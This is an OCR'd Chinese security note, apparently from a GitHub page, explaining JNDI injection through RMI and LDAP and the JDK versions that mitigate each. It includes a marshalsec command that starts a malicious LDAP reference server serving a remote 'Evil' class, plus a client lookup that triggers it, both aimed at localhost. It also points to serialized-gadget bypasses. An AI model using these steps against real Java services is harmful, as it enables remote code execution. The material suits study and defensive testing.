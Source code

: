 ## **JNDI+RMI利用方式**
直接JNDI运行远程方法。
在JNDI服务中，RMI服务端除了直接绑定远程对象之外，还可以通过References类来绑定一个外部的远程对象(当前名称目录系统之外的对象)。绑定了Reference之后，服务端会先通过Referenceable.getReference()获取绑定对象的引l用，并且在目录中保存。
当客户端在lookup()查找这个远程对象时，客户端会获又相应的object factory，最终通过factory类将reference转换为具体的对象实例。
在jdk 8U121后不可用了。RMl远程Reference代码默认不信任，RMl远程Reference代码攻击方式开始失效。


^
## **JNDI+LDAP利用方式**
使用marshalsec启动一个恶意的LDAP服务，可以执行恶意方法。
```
java -cp marshalsec-0.0.3-SNAPSH0T-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/#Evil 10997
```
```
public static void main(String[] args) throws NamingException {
    InitialContext context = new InitialContext();
    context.lookup( "ldap://127.0.0.1:10997/evil");
}
```
从jdk8u191开始，LDAP远程Reference代码默认不信任，LDAP远程Reference代码攻击方式开始失效，需要通过javaSerializedData返回序列化gadget方式实现攻击。